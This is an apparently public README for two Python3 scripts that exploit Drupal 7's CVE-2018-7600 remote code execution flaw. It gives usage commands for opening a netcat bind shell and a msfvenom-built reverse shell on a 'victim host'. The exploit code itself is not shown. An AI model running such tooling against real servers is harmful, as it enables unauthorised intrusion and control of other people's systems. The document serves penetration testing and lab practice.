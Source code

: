 # CVE-2018-7600
Two Python3 scripts that exploit Drupal 7's RCE vulnerability on Windows and Linux. Scripts are meant to acquire a shell on the target host.  
Nothing fancy, the scripts are meant to do everything for you and you don't need to setup your listener(s) separately.  

### d2shell.py
Setup and connect to a netcat binded shell onto the victim host.  
Usage.  
~~~Bash
# python3 d2shell.py target lhost windows/linux  
python3 d2shell.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2shell.mp4](d2shell.mp4)  

### d2rev.py
Acquire a reverse shell onto the victim host. This script will use msfvenom to create an encoded shell payload if the victim is Windows based.  
Usage.  
~~~Bash
# python3 d2rev.py target lhost windows/linux  
python3 d2rev.py 172.16.1.10 10.10.14.10 windows  
~~~  

![d2rev.mp4](d2rev.mp4)  

![screen.png](screen.png)
